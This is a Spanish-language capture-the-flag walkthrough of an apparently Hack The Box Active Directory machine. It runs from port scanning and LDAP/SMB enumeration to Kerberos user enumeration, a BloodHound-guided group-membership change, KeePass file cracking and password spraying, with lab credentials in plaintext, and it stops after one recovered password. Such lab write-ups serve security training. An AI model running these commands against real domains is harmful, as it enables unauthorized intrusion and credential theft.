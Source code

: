 levi.james:KingofAkron2025!
## Reconocimiento

### Scaneo de puertos y servicios
Empezaremos realizando un reconocimiento con la herramienta de [[RUSTSCAN]] que es un [[NMAP]] con esteroides:
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

```ad-info
rustscan tambien usa herramintas de nmap para una mejor respuesta sobre el reconocimiento de puertos
```

En caso de querer usar solo [[NMAP]]

Los puertos encontrados mas relevantes son:
```js
53 - DNS
88 - kerberos
111 - rpcbind
389 - LDAP
445 - SMB
5985 - WinRm
```

Usaremos [[CRACKMAPEXEC-NETEXEC]] para enumerar información básica del servicio **LDAP**.
`netexec ldap $IP 2>/dev/null` 

```js

LDAP $IP 389 DC [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)

```

Nos muestra: el protocolo `LDAP` la `IP` y el puerto `389`, a continuación nos muestra el rol del host `DC` que es **Domain Controller**, identificación del sistema operativo , nombre del host y dominio completo `FQDN`


Usaremos la herramienta de `https://github.com/Gzzcoo/iRealm` para añadir la maquina al `/etc/hosts` y el nombre de dominio y FQDN a `/etc/krb5.conf`
`iRealm --force $IP PUPPY.HTB DC`

### Verificación de credenciales
Verificamos las credenciales que nos han aportado son validas con [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!'`

Nos mostrara que las credenciales son validas

#### Búsqueda de información en recursos compartidos
Buscamos recursos compartidos en el servicio *SMB* con [[CRACKMAPEXEC-NETEXEC]]
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares  -M spider_plus`

Usaremos la opción `--shares` para listar los recursos compartidos y el modulo `-M spider_plus` para hacer una búsqueda profunda de recursos compartidos nos genera un archivo `.JSON` en `/root/.nxc/modules/nxc_spider_plus/10.10.11.70.json`

### Enumeración Usuarios

Podemos probar con [[RPCCLIENT]] con una NULL SESSION
`rpcclient -U "" $IP -N` -> `enumdomusers`

Luego probaremos con USER:PASS con [[RPCCLIENT]]
`rpcclient -U 'levi.james%KingofAkron2025!' $IP` -> `enumdomusers`
Nos enumerara los usuarios del dominio

Enumerar usuarios del dominio con [[CRACKMAPEXEC-NETEXEC]] 
`nxc ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --users`

También podemos usar [[CRACKMAPEXEC-NETEXEC]] para enumerar usuarios
`netexec ldap $IP -u users.txt -p '' -k`

 ```ad-note
   El error KDC_ERR_PREAUTH_FAILED la contraseña no funciona pero existe el usuario
  El error KDC_ERR_CLIENT_REVOKED existe el usuario
 ```

Para verificar y enumerar que existan en el dominio con la herramienta [[KERBRUTE]]
`kerbrute userenum --dc $IP -d puppy.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`

```ad-hint    
Administrator    
Guest            
krbtgt           
levi.james       
ant.edwards      
adam.silver      
jamie.williams   
steph.cooper     
steph.cooper_adm 
```

### Verificación de diferentes vectores de ataque

```ad-info

#### AS-REP ROASTING (Sin creds)
Busca obtener _hashes_ de contraseñas de usuarios que tengan deshabilitada la **preautenticación Kerberos**
`impacket-GetNPUsers -no-pass -usersfile users.txt puppy.htb/`
No es susceptible al ataque.

#### KERBEROASTING (Con creds validas)
Enumeración de usuario que tenga **serviceprincipalname** (SPN) 
`impacket-GetUserSPNs 'puppy.htb/levi.james:KingofAkron2025!' -dc-ip $IP`
No es susceptible al ataque.  
```


### Recopilación de datos de AD

Recopilaremos unformacion del LDAP y lo guardaremos en un `.zip` que es le usaremos para subir al **BloodHound**, usaremos la herramienta [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server $IP`
Usaremos la opción `--bloodhound` que activa el modulo de recolección de datos, usamos también `--collection All` especifica que se usen todos los métodos de recolección de datos. Y `--dns-server $IP` se usa para que la herramienta use el **DC** como DNS.

También se pude generar este `.zip` con:
``

EL archivo que nos genera lo subiremos a **BloodHound**

```ad-note
Para ejecutar **BloodHound** hemos creado un script el cual para levantar el servicio solo tendremos que hacer `bloodHound up` y navegar a la web.
Una vez dentro de la web importaremos el `.zip`
```

Para buscar a que grupo pertenecemos, en el buscador de **bloodHound** el usuario que nos facilitaron al principio `levis.james`
Y en *Outbound Object Control* vemos que el usuario es miembro de `HR@PUPPY.HTB` que tiene capacidad de modificar y añadir atributos en otro grupo del que es miembro en este caso del grupo `DEVELOPERS@PUPPY.HTB`  


Sabiendo que tenemos esos "privilegios" añadimos el usuario al grupo **DEVELOPERS**
`bloodyAD --host $IP -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'`

Como nos hemos añadido al grupo **DEVELOPERS** volvemos a acceder al **SMB** y tendremos acceso a la carpeta compartida **DEV**
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --shares `

Nos encontramos que en el directorio hay un archivo con extensión de *keepass* `kdbx` 
`recovery.kdbx`

```ad-info
KeePass es un **gestor de contraseñas de código abierto y gratuito** que te ayuda a **almacenar de forma segura** tus nombres de usuario, contraseñas y otros datos sensibles.
```

Nos descargamos el archivo que hemos encontrado con [[CRACKMAPEXEC-NETEXEC]]
`netexec smb $IP -u 'levi.james' -p 'KingofAkron2025!' --share 'DEV' --get-file 'recovery.kdbx' 'recovery.kdbx'`

El archivo descargado lo subimos **Keepassxc** para poder ver su contenido nos pide una password como no tenemos esta contraseña haremos fuerza bruta hacia el archivo

Usaremos `./keepas4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt`
La contraseña que nos devuelve es `liverpool`

Una vez conseguimos ver los datos de usuarios y passwords guardaremos las contraseñas en un archivo, y junto con los usuarios que encontramos al principio y haremos fuerza bruta para ver si alguna contraseña le pertenece a algún usuario. 
Usaremos [[CRACKMAPEXEC-NETEXEC]]
`netexec ldap $IP -u users.txt -p pass.txt --continu-on-success | grep '[+]'`

Nos encuentra el siguiente user y su password
```ad-hint
[+] PUPPY.HTB\ant.edwards:Antman2025!
```





